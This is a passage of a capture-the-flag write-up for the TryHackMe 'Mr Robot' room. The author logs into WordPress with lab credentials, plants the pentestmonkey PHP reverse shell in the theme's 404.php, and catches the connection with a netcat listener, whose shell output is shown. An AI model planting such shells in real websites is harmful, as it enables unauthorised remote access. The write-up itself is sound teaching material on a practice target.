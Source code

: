 Now we have credentials to access the site: `username`: Elliot, `password`: ER28-0652

## Initial Access via Reverse Shell

- After logging in, go to Appearance -> Editor -> edit `404.php` to include our reverse shell. I will use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

![](/assets/TryHackMeRoomsImage/MrRobot/image2.png)

Edit IP and port to my VPN IP and port 9999, then click save file.

Start listening:
```js
💻  T4T4R1S  🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀  ➜ ~  rlwrap nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.186.36] 41332
Linux ip-10-10-186-36 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 12:19:34 up  1:46,  0 users,  load average: 0.07, 0.05, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

After enumerating the system, I found key 2 in the home directory for a user called `robot` and an MD5 hash file:
```js
$ cd robot
$ ls
key-2-of-3.txt
password.raw-md5
```

Tried to open key 2 but lacked permission:
```js
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
```
